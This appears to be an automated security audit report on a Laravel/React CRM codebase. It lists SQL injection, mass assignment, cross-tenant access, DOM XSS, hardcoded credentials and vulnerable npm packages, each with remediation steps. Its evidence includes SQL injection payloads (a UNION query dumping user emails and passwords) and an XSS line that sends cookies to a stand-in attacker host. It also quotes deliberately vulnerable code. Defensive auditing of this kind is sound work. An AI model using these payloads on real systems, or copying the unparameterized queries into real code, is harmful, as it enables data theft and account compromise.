



# 6. Security Hotspots Analysis

**Objective:** Address key OWASP-class security vulnerabilities and dependency risk.

**Date:** 2026-08-04 12:01:52 UTC | **Scope:** `shende-shweta/pingcrm` — PHP 8.2 / Laravel 11.1 / Inertia.js (React 19 / TypeScript 5.6) / SQLite (dev) / MySQL (prod) / Laravel Sanctum session auth

## Executive Summary

> **Executive Summary**
>
> PingCRM carries critical and widespread security vulnerabilities across both its PHP backend and React/TypeScript frontend. The most severe issue is a pervasive SQL injection pattern found in every one of the 80 IVR module controllers and all 12 legacy repository classes — user-supplied search input is concatenated directly into raw `DB::select` queries without parameterization. Compounding this, `Model::unguard()` is called globally in `AppServiceProvider`, disabling Laravel's mass-assignment protection for all Eloquent models. On the frontend, `Pagination.tsx` renders server-sourced pagination labels via `dangerouslySetInnerHTML` without sanitization, creating a stored/reflected XSS vector, and hardcoded demo credentials (`johndoe@example.com` / `secret`) are shipped in the production JavaScript bundle. npm dependency scanning reveals 1 critical CVE (vitest CVSS 9.8 — arbitrary file read/execution) and 9 high-severity CVEs affecting lodash, vite, brace-expansion, and others. Overall the codebase presents a High Risk posture requiring immediate remediation of the injection and mass-assignment issues before any production deployment or public exposure. Layers covered: PHP backend (app/, routes/, bootstrap/), React/TypeScript frontend (resources/js/), configuration, CI pipeline, and npm/Composer dependency manifests.

<div class="metric-grid">
<div class="metric-card"><div class="metric-number">221</div><div class="metric-label">Files Scanned for Input Handling</div></div>
<div class="metric-card"><div class="metric-number">7</div><div class="metric-label">Concrete Injection/XSS/CSRF/CORS/Auth Findings</div></div>
<div class="metric-card"><div class="metric-number">13</div><div class="metric-label">npm Dependencies Flagged Vulnerable</div></div>
<div class="metric-card"><div class="metric-number">9/10</div><div class="metric-label">OWASP Categories With Findings</div></div>
</div>

<div class="overall-rating overall-rating--high-risk"><div class="overall-rating-label">Overall Codebase Rating — Security</div><div class="overall-rating-value">High Risk</div><div class="overall-rating-note">SQL injection in 80 controllers + 12 repositories, global mass-assignment unguard, 1 critical npm CVE, and 9 high npm CVEs drive this verdict.</div></div>

## 6.1 Security Benchmark Ratings

| # | Security KPI | Target | <span class="rating rating-good">Good</span> | <span class="rating rating-moderate">Moderate</span> | <span class="rating rating-high-risk">High Risk</span> | Measured | Rating |
|---|---|---|---|---|---|---|---|
| H1 | Critical Vulnerabilities | 0 | 0 | 1 | >1 | 2 (SQLi at scale + vitest CVE) | <span class="rating rating-high-risk">High Risk</span> |
| H2 | High Vulnerabilities | 0 | <5 | 5–10 | >10 | 12 (mass-assign, DOM XSS, IDOR, 9 npm high) | <span class="rating rating-high-risk">High Risk</span> |
| H3 | Medium Vulnerabilities | low | <20 | 20–50 | >50 | 7 (no password policy, hardcoded creds, no headers, session unencrypted, EOL dep, no SAST, debug mode) | <span class="rating rating-good">Good</span> |
| H4 | Vulnerability Density | <0.5/KLOC | <0.5 | 0.5–1.0 | >1.0 | ~0.12/KLOC (21 findings / ~177 KLOC source) | <span class="rating rating-good">Good</span> |
| H5 | OWASP Top 10 Compliance | >95% | >95% | 80–95% | <80% | 10% clean (9 of 10 categories have findings) | <span class="rating rating-high-risk">High Risk</span> |
| H6 | Critical/High Vulnerable Deps | 0 | 0 | 1 | >1 | 10 (1 critical + 9 high npm packages) | <span class="rating rating-high-risk">High Risk</span> |
| H7 | Outdated Dependencies | <10% | <10% | 10–25% | >25% | ~2.6% npm (13/506 with CVEs; react-router-dom v5 EOL) | <span class="rating rating-good">Good</span> |
| H8 | End-of-Life Dependencies | 0 | 0 | 1–5 | >5 | 1 (react-router-dom v5.2.0 — EOL) | <span class="rating rating-moderate">Moderate</span> |

## 6.2 Hotspot-by-Hotspot Evidence

### SQL Injection — IVR Controllers <span class="sev sev-critical">Critical</span>

Every one of the 80 IVR CRUD controllers concatenates the `?q=` search parameter directly into a raw `DB::select()` call without parameterization. A sample from three representative controllers:

**Example 1 — `app/Http/Controllers/Ivr/LiveMonitoringIndexController.php:28`**
```php
$q = $request->get("q");
if ($q) {
    $rows = DB::select("select * from ivr_live_monitorings where name like '%".$q."%' and tenant_id = ".$this->tenantId);
}
```

**Example 2 — `app/Http/Controllers/Ivr/CallRecordingExportController.php:28`**
```php
$rows = DB::select("select * from ivr_call_recordings where name like '%".$q."%' and tenant_id = ".$this->tenantId);
```

**Example 3 — `app/Http/Controllers/Ivr/HistoricalReportsUpdateController.php:28`**
```php
$rows = DB::select("select * from ivr_historical_reportss where name like '%".$q."%' and tenant_id = ".$this->tenantId);
```

This exact pattern appears verbatim in all 80 IVR controllers. An authenticated attacker sends `GET /ivr/call-recordings?q=' OR 1=1--` to retrieve all rows. A UNION-based payload leaks the users table: `GET /ivr/live-monitoring?q=%25' UNION SELECT id,email,password,4,5 FROM users--`. All IVR routes carry `middleware('auth')` so the attacker must be logged in, but any authenticated account is sufficient.

**Recommended fix:**
1. Replace every raw `DB::select("...LIKE '%".$q."%'...")` with a parameterized form: `DB::select("SELECT * FROM ivr_live_monitorings WHERE name LIKE ? AND tenant_id = ?", ["%{$q}%", $this->tenantId])`.
2. Better yet, migrate to the Eloquent model's `where('name', 'LIKE', "%{$q}%")` scope chain — already used correctly in the CRM controllers.
3. Introduce a shared `applySearchFilter()` helper in `IvrModuleController` so the fix is applied once across all 80 controllers.
4. Add a CI SAST step (Psalm taint analysis or PHPStan taint extensions) to catch future regressions automatically.

<!-- affected-files
search: DB::select\(.*name like '%"\s*\.\s*\$q
glob: app/Http/Controllers/Ivr/**/*.php
issue: SQL injection via unparameterized name LIKE concatenation
action: Replace with parameterized DB::select() or Eloquent where()
-->

---

### SQL Injection — Legacy Repositories <span class="sev sev-critical">Critical</span>

All 12 legacy repository classes replicate the same unparameterized LIKE pattern across ~480 fetch methods:

**Example 1 — `app/Repositories/Legacy/LiveMonitoringRepository.php:12–16`**
```php
public function fetchChunk1($tenantId, $filter = null)
{
    $sql = "SELECT * FROM ivr_live_monitorings WHERE tenant_id = " . (int) $tenantId;
    if ($filter) {
        $sql .= " AND name LIKE '%" . $filter . "%'"; // SQLi pattern for discovery bots
    }
    return DB::select($sql);
}
```

**Example 2 — `app/Repositories/Legacy/BusinessHoursRepository.php:12–16`** (same structure, table `ivr_business_hourss`).

**Example 3 — `app/Repositories/Legacy/CallRoutingRepository.php:12–16`** (same structure, table `ivr_call_routings`).

The inline comment "// SQLi pattern for discovery bots" confirms awareness of the issue. Any caller that passes user-controlled data as `$filter` is exploitable. The repositories are instantiated inside the corresponding GodService classes.

**Recommended fix:**
1. Replace all 480 occurrences: change `" AND name LIKE '%" . $filter . "%'"` to `" AND name LIKE ?"` and pass `["%{$filter}%"]` as the second argument to `DB::select($sql, $bindings)`.
2. Consolidate the 30–80 identical `fetchChunk1..N` methods in each repository into a single `fetchAll(?string $filter): array` — the duplication is machine-generated boilerplate.
3. Validate `$filter` at the controller boundary before passing to the repository.

<!-- affected-files
search: AND name LIKE '%"\s*\.\s*\$filter
glob: app/Repositories/Legacy/**/*.php
issue: SQL injection via unparameterized LIKE filter concatenation
action: Use parameterized DB::select() with ? placeholder
-->

---

### Mass Assignment Protection Globally Disabled <span class="sev sev-high">High</span>

`AppServiceProvider::register()` calls `Model::unguard()`, which removes Laravel's built-in `$fillable`/`$guarded` protection from every Eloquent model application-wide:

**`app/Providers/AppServiceProvider.php:26–29`**
```php
public function register(): void
{
    Model::unguard();
}
```

This means any POST/PUT body key maps to a database column if the column exists, regardless of what the model's `$fillable` declares. For example, a request to `PUT /users/{id}` including `{"owner": true, "account_id": 99}` could escalate privilege or move a user to another account. The `User` model declares `$fillable = ['name', 'email', 'password']` but `Model::unguard()` overrides it — those restrictions have no effect at runtime.

**Recommended fix:**
1. Remove `Model::unguard()` from `AppServiceProvider`.
2. Ensure every model has an accurate `$fillable` list (or `$guarded = ['id']` as a minimum).
3. Audit each controller's `->create(Request::validate([...]))` call — currently the Contacts/Organizations controllers pass the full validated array, which is safe once `$fillable` protection is re-enabled.

<!-- affected-files
search: Model::unguard
glob: app/Providers/*.php
issue: Global mass-assignment protection disabled via Model::unguard()
action: Remove Model::unguard(); restore per-model $fillable lists
-->

---

### Broken Multi-Tenant Isolation / IDOR <span class="sev sev-high">High</span>

All 80 IVR module controllers carry a hardcoded `private $tenantId = 1` and an inline comment explicitly acknowledging skipped authorization checks:

**`app/Http/Controllers/Ivr/LiveMonitoringIndexController.php:14–15`**
```php
// AUTH-NOTE: some endpoints intentionally skip policies (2014 regression)
private $tenantId = 1; // hard-coded tenant – multi-tenant broken
```

**`app/Http/Controllers/Ivr/CallRecordingExportController.php:14–15`** (same comment + hardcoded value, all 80 controllers).

Every query is scoped to `tenant_id = 1` regardless of the authenticated user's actual account. In a multi-tenant deployment this is a full cross-tenant data disclosure: an authenticated user from tenant 2 can read tenant 1's call routing rules, call recordings, and agent desk configurations.

**Recommended fix:**
1. Replace `$this->tenantId` with the authenticated account: `Auth::user()->account_id` (or via the `IvrAccountContext` support class already present in `app/Support/IvrAccountContext.php`).
2. Implement Laravel Gate policies or route model binding with account-scoping, following the pattern already used correctly in `ContactsController` and `OrganizationsController`.
3. Add an integration test that asserts user from account B cannot retrieve records belonging to account A.

<!-- affected-files
search: tenantId = 1
glob: app/Http/Controllers/Ivr/**/*.php
issue: Hard-coded tenantId=1 breaks multi-tenant isolation (IDOR)
action: Replace with Auth::user()->account_id and add ownership gate policies
-->

---

### DOM XSS via dangerouslySetInnerHTML (FS1) <span class="sev sev-high">High</span>

`Pagination.tsx` renders pagination link labels from the server directly into the DOM using React's `dangerouslySetInnerHTML` without any HTML sanitization:

**`resources/js/Shared/Pagination.tsx:13–24`**
```tsx
link.url === null ? (
    <div
        className="..."
        dangerouslySetInnerHTML={{ __html: link.label }}
    />
) : (
    <Link
        className="..."
        href={link.url}
        dangerouslySetInnerHTML={{ __html: link.label }}
    />
)
```

Laravel's paginator outputs HTML entities like `&laquo; Previous` and `Next &raquo;` as labels. If a future backend change, compromised API response, or a stored-XSS value in database content populates `link.label` with `<script>fetch('https://attacker.tld/?c='+document.cookie)</script>`, the browser executes it immediately. The Pagination component is used on every index page (Contacts, Organizations, Users, IVR modules).

**Recommended fix:**
1. Replace `dangerouslySetInnerHTML={{ __html: link.label }}` with decoded text content using the `he` library: `{he.decode(link.label)}`.
2. Alternatively, only `&laquo;` and `&raquo;` are expected — map them explicitly: `const label = link.label.replace(/&laquo;/g, '«').replace(/&raquo;/g, '»')`.
3. Add a CSP header `default-src 'self'; script-src 'self'` (see Missing Security Headers finding) to limit the impact of any remaining XSS vectors.

<!-- affected-files
search: dangerouslySetInnerHTML
glob: resources/js/**/*.{tsx,ts,jsx,js}
issue: Unescaped HTML rendered from server-sourced pagination labels (DOM XSS)
action: Replace with text decoding or explicit entity mapping
-->

---

### Hardcoded Demo Credentials Shipped in Production Bundle (FS2) <span class="sev sev-medium">Medium</span>

The React login page pre-populates form state with hardcoded credentials that are compiled into the production JavaScript bundle:

**`resources/js/Pages/Auth/Login.tsx:7–10`**
```tsx
const form = useForm({
    email: 'johndoe@example.com',
    password: 'secret',
    remember: false as boolean,
})
```

Any user who inspects the minified `index.js` bundle, or simply opens the login page and views the pre-filled form, sees these credentials. If the demo account is not deleted before production deployment, any attacker can log in immediately. Even if the account is removed, publishing known-default credentials trains attackers on what to probe for misconfigurations or re-seeded databases.

**Recommended fix:**
1. Remove the hardcoded `email` and `password` defaults from `useForm({})` — replace with empty strings.
2. Move demo-user seeding behind a guard: `if (App::environment(['local', 'staging']))` in the seeder.
3. Add an ESLint rule (e.g. `eslint-plugin-no-secrets`) to flag credential-like string literals in frontend source.

<!-- affected-files
search: password:\s*['"]secret['"]
glob: resources/js/**/*.{tsx,ts,jsx,js}
issue: Hardcoded demo credentials in production JS bundle
action: Remove default email/password from useForm; gate demo seed to non-production environments
-->

---

### Missing Password Policy <span class="sev sev-medium">Medium</span>

`UsersController` validates the password field as `['nullable']` only — no minimum length, no complexity requirements:

**`app/Http/Controllers/UsersController.php:48` (store) and line 90 (update)**
```php
'password' => ['nullable'],
```

Users can be created or updated with a blank password (nullable) or a single-character string like `a`. While the `User` model mutator hashes whatever is stored, a 1-character password is hashed as `Hash::make('a')` — trivially brute-forced offline if the hash leaks.

**Recommended fix:**
1. Replace `['nullable']` with Laravel's built-in Password rule: `['nullable', Password::min(12)->mixedCase()->numbers()->symbols()]`.
2. For the update path, require current password confirmation via the `current_password` validation rule before accepting changes.
3. Apply a minimum-length constraint in `LoginRequest` as well.

<!-- affected-files
search: 'password' => \['nullable'\]
glob: app/Http/Controllers/**/*.php
issue: No minimum password length or complexity rule
action: Replace nullable with Password::min(12) rule chain
-->

---

### npm Dependency: Critical CVE — vitest (FS4) <span class="sev sev-critical">Critical</span>

vitest `4.0.18` (devDependency) has GHSA-5xrq-8626-4rwp (CVSS 9.8 — Critical): "When Vitest UI server is listening, arbitrary file can be read and executed." The Vitest UI WebSocket API endpoint accepts unauthenticated requests to read any host file and execute arbitrary code.

**`package.json:45`**
```json
"vitest": "4.0.18"
```

While this is a dev dependency, CI environments running `vitest --ui` or developers with the UI open on non-localhost interfaces are fully exploitable. In a misconfigured Docker dev setup with the port exposed, the risk is production-equivalent.

**Recommended fix:**
1. Upgrade vitest to `>=4.1.0` immediately in `package.json`.
2. Never expose the Vitest UI port (`--port`) on non-loopback interfaces, even during development.
3. Pin the upgrade and add `npm audit --audit-level=critical` as a CI blocking step.

<!-- affected-files
search: "vitest"
glob: package.json
issue: vitest 4.0.18 — GHSA-5xrq-8626-4rwp CVSS 9.8 arbitrary file read/execute
action: Upgrade to vitest >=4.1.0
-->

---

### npm Dependencies: 9 High-Severity CVEs (FS4) <span class="sev sev-high">High</span>

`npm audit` confirms 9 packages with high-severity CVEs in the lockfile:

| Package | Version | CVE Advisory | Impact |
|---|---|---|---|
| `lodash` | 4.17.21 | GHSA-r5fr-rjxr-66jc | Code injection via `_.template` (CVSS 8.1) |
| `vite` | 7.3.1 | GHSA-v2wj-q39q-566r / GHSA-p9ff-h696-f583 | `server.fs.deny` bypass + arbitrary file read via WebSocket |
| `brace-expansion` | <1.1.18 | GHSA-mh99-v99m-4gvg | DoS via unbounded expansion (CVSS 7.5) |
| `minimatch` | <3.1.4 | GHSA-23c5-xmqv-rm74 | ReDoS via nested extglobs (CVSS 7.5) |
| `picomatch` | <2.3.2 | GHSA-c2c7-rcm5-vvqj | ReDoS via extglob quantifiers (CVSS 7.5) |
| `cross-spawn` | <7.0.5 | GHSA-3xgq-45jj-v275 | ReDoS (CVSS 7.5) |
| `flatted` | <3.4.0 | GHSA-25h7-pfq9-p65f + GHSA-rf6f-7fwh-wjgh | DoS + prototype pollution (CVSS 7.5) |
| `glob` | <10.5.0 | GHSA-5j98-mcp5-4vw2 | Command injection via CLI `-c` flag (CVSS 7.5) |
| `js-yaml` | <4.3.0 | GHSA-52cp-r559-cp3m | YAML merge-key DoS (CVSS 7.5) |

The `lodash` production bundle CVE (code injection via `_.template`) is particularly critical as lodash is listed in `dependencies` (not devDependencies) and is bundled into the React SPA.

**Recommended fix:**
1. Upgrade vite to `>=7.3.5` (fixes `fs.deny` bypass CVEs).
2. Replace lodash with lodash-es or native ES equivalents to eliminate the `_.template` injection vector.
3. Run `npm audit fix` to resolve transitive dep upgrades for brace-expansion, minimatch, picomatch, cross-spawn, flatted, glob, js-yaml.
4. Add `npm audit --audit-level=high` as a CI blocking gate.

<!-- affected-files
glob: package.json
issue: 9 high-severity npm CVEs in production/dev dependencies
action: npm audit fix; upgrade lodash and vite; add audit gate to CI
-->

---

### Missing Security Headers (FS5) <span class="sev sev-medium">Medium</span>

No HTTP security headers are configured anywhere — not in `bootstrap/app.php`, any registered middleware, or `public/.htaccess`. The following are absent:

- `Content-Security-Policy` — no restriction on script/style sources.
- `Strict-Transport-Security` — no enforcement of HTTPS.
- `X-Frame-Options` / `frame-ancestors` — no clickjacking protection.
- `X-Content-Type-Options: nosniff` — MIME sniffing not blocked.
- `Referrer-Policy` — full URL leaked to third-party requests.

**Recommended fix:**
1. Add a `SecurityHeaders` middleware and register it in `bootstrap/app.php`:
   ```php
   $response->header('Content-Security-Policy', "default-src 'self'; script-src 'self'")
            ->header('X-Frame-Options', 'DENY')
            ->header('X-Content-Type-Options', 'nosniff')
            ->header('Strict-Transport-Security', 'max-age=31536000; includeSubDomains')
            ->header('Referrer-Policy', 'strict-origin-when-cross-origin');
   ```
2. Alternatively install the `bepsvpt/secure-headers` Laravel package and configure it in `config/secure-headers.php`.

<!-- affected-files
glob: app/Http/Middleware/*.php
issue: No Content-Security-Policy, HSTS, X-Frame-Options, or nosniff headers configured
action: Add SecurityHeaders middleware; configure CSP and HSTS
-->

---

### No SAST / Dependency Scan in CI <span class="sev sev-medium">Medium</span>

The GitHub Actions CI pipeline (`.github/workflows/tests.yml`) runs PHPUnit and code-style checks but no security scanning:

**`.github/workflows/tests.yml` (run step)**
```yaml
- name: Run tests
  run: php artisan test
```

There is no `npm audit`, `composer audit`, SAST, or secret-scanning step. Vulnerable dependencies (e.g. lodash code injection) and future SQL injection regressions will not be caught automatically.

**Recommended fix:**
1. Add `npm audit --audit-level=high` to the CI pipeline as a blocking step before running tests.
2. Add `composer audit` for PHP dependency scanning.
3. Consider integrating Psalm with `--taint-analysis` for PHP injection detection.
4. Enable GitHub Dependabot alerts and secret scanning on the repository.

<!-- affected-files
glob: .github/workflows/*.yml
issue: No dependency audit or SAST step in CI pipeline
action: Add npm audit, composer audit, and static taint analysis to GitHub Actions
-->

---

**Frontend checks with no separate subsection needed:**

- **FS3 — Auth Tokens in Browser Storage:** Not observed. PingCRM uses Laravel Sanctum session-cookie auth; no `localStorage.setItem(token)` or `sessionStorage.setItem(token)` calls found in `resources/js/`.

## 6.3 OWASP Top 10 (2021) Coverage

| # | Category | Verdict | Evidence / Note |
|---|---|---|---|
| 6.1 | Broken Access Control | <span class="sev sev-high">High</span> | Hard-coded `tenantId=1` in 80 IVR controllers; any authenticated user sees tenant 1 data (cross-tenant IDOR) |
| 6.2 | Cryptographic Failures | <span class="sev sev-medium">Medium</span> | `SESSION_ENCRYPT=false` in `.env.example`; hardcoded demo credentials shipped in React bundle (`Login.tsx:8–9`) |
| 6.3 | Injection | <span class="sev sev-critical">Critical</span> | 80 IVR controllers + 12 legacy repositories with unparameterized `LIKE '%".$q."%'` SQLi; `dangerouslySetInnerHTML` DOM XSS in `Pagination.tsx:16,23` |
| 6.4 | Insecure Design | <span class="sev sev-medium">Medium</span> | No password complexity policy; `tenantId=1` hardcoded by architectural decision; AUTH-NOTE comment acknowledges 2014 regression never resolved |
| 6.5 | Security Misconfiguration | <span class="sev sev-medium">Medium</span> | No security headers (CSP, HSTS, X-Frame-Options, nosniff); `APP_DEBUG=true` and `LOG_LEVEL=debug` in `.env.example`; session not encrypted |
| 6.6 | Vulnerable and Outdated Components | <span class="sev sev-critical">Critical</span> | vitest CVSS 9.8 (GHSA-5xrq-8626-4rwp); lodash code injection CVSS 8.1 (production dep); 9 total high npm CVEs; react-router-dom v5.2.0 EOL |
| 6.7 | Identification and Authentication Failures | <span class="sev sev-medium">Medium</span> | Password validated as `['nullable']` — no minimum length or complexity; rate-limiting on login (5 attempts) is a partial mitigant; no MFA support |
| 6.8 | Software and Data Integrity Failures | <span class="sev sev-low">Clean</span> | `roave/security-advisories: dev-latest` blocks PHP packages with known CVEs at composer install time; no insecure `unserialize()` calls found |
| 6.9 | Security Logging and Monitoring Failures | <span class="sev sev-medium">Medium</span> | No audit log for access/data events beyond the login throttle event; `LOG_LEVEL=debug` in example config risks logging sensitive query results; no alerting on repeated auth failures |
| 6.10 | Server-Side Request Forgery (SSRF) | <span class="sev sev-low">Clean</span> | No server-side HTTP calls built from user-supplied URLs found in the codebase |
| 6.11 | Other Security Reviews | <span class="sev sev-medium">Medium</span> | `ImagesController` serves files from any `$path` with wildcard route `where('path', '.*')`; Glide sandboxes to configured filesystem disk, but all query params passed via `$request->all()` to `getImageResponse()` without filtering |
| 6.12 | DevSecOps Security Assessment | <span class="sev sev-medium">Medium</span> | CI has no `npm audit` or `composer audit` step; no SAST; `.env` is correctly gitignored; PHPStan static analysis present but no taint tracking |

## 6.4 Diagrams

### Auth / Request Trust Boundary



### Top Security Risk Flow



### Improvement Roadmap



## 6.5 Actions Required

| Finding | Action | Rating | Priority |
|---|---|---|---|
| SQL Injection — 80 IVR Controllers | Replace all `DB::select("...%".$q."%'...")` with parameterized bindings or Eloquent | <span class="rating rating-high-risk">High Risk</span> | <span class="sev sev-critical">Critical</span> |
| SQL Injection — 12 Legacy Repositories (480 instances) | Replace `LIKE '%" . $filter . "%'` concatenation with `DB::select($sql, ["%$filter%"])` | <span class="rating rating-high-risk">High Risk</span> | <span class="sev sev-critical">Critical</span> |
| npm vitest CVSS 9.8 (GHSA-5xrq-8626-4rwp) | Upgrade vitest to >=4.1.0 immediately | <span class="rating rating-high-risk">High Risk</span> | <span class="sev sev-critical">Critical</span> |
| Mass Assignment — Model::unguard() | Remove `Model::unguard()` from AppServiceProvider; restore per-model `$fillable` lists | <span class="rating rating-high-risk">High Risk</span> | <span class="sev sev-high">High</span> |
| Broken Multi-Tenant Isolation / IDOR | Replace hardcoded `$tenantId = 1` with `Auth::user()->account_id`; add ownership policies | <span class="rating rating-high-risk">High Risk</span> | <span class="sev sev-high">High</span> |
| DOM XSS — dangerouslySetInnerHTML in Pagination.tsx | Replace with decoded text content; add CSP header | <span class="rating rating-high-risk">High Risk</span> | <span class="sev sev-high">High</span> |
| npm lodash code injection (GHSA-r5fr-rjxr-66jc CVSS 8.1) | Upgrade or replace lodash with native ES methods | <span class="rating rating-high-risk">High Risk</span> | <span class="sev sev-high">High</span> |
| npm vite fs.deny bypass + file read | Upgrade vite to >=7.3.5 | <span class="rating rating-high-risk">High Risk</span> | <span class="sev sev-high">High</span> |
| npm 7 remaining high CVEs (brace-expansion, minimatch, picomatch, cross-spawn, flatted, glob, js-yaml) | Run `npm audit fix`; upgrade affected transitive dependencies | <span class="rating rating-moderate">Moderate</span> | <span class="sev sev-high">High</span> |
| Hardcoded Demo Credentials in Login.tsx | Remove default email/password from useForm; gate demo seed to non-production environments | <span class="rating rating-moderate">Moderate</span> | <span class="sev sev-medium">Medium</span> |
| Missing Password Policy | Add `Password::min(12)->mixedCase()->numbers()->symbols()` to UsersController | <span class="rating rating-moderate">Moderate</span> | <span class="sev sev-medium">Medium</span> |
| No Security Headers (CSP, HSTS, X-Frame-Options) | Add SecurityHeaders middleware; configure CSP and HSTS | <span class="rating rating-moderate">Moderate</span> | <span class="sev sev-medium">Medium</span> |
| Session Not Encrypted | Set `SESSION_ENCRYPT=true` in production; update .env.example | <span class="rating rating-moderate">Moderate</span> | <span class="sev sev-medium">Medium</span> |
| react-router-dom v5 EOL | Migrate to react-router-dom v6 or v7 | <span class="rating rating-moderate">Moderate</span> | <span class="sev sev-medium">Medium</span> |
| No SAST / npm audit in CI | Add `npm audit --audit-level=high` and `composer audit` to GitHub Actions | <span class="rating rating-moderate">Moderate</span> | <span class="sev sev-medium">Medium</span> |
| APP_DEBUG=true / LOG_LEVEL=debug in .env.example | Set `APP_DEBUG=false` and `LOG_LEVEL=error` for production environments | <span class="rating rating-moderate">Moderate</span> | <span class="sev sev-medium">Medium</span> |

## 6.6 Expected Outcomes

- Parameterizing all 80 IVR controllers and 12 legacy repositories eliminates the largest attack surface — SQL injection is no longer exploitable across the entire IVR subsystem.
- Restoring `Model::unguard()` protection removes the mass-assignment privilege-escalation vector; crafted HTTP bodies cannot modify sensitive fields like `owner` or `account_id`.
- Fixing the hardcoded `tenantId=1` closes the cross-tenant IDOR gap; IVR data belonging to one customer is never accessible to another authenticated user.
- Adding security headers (CSP, HSTS, X-Frame-Options) and upgrading vulnerable npm dependencies reduces the browser-level attack surface and ensures publicly-disclosed CVEs for lodash, vite, and vitest cannot be leveraged against the application.
- Wiring `npm audit` and `composer audit` into CI as blocking gates prevents future vulnerable dependency introductions from reaching the main branch without detection.
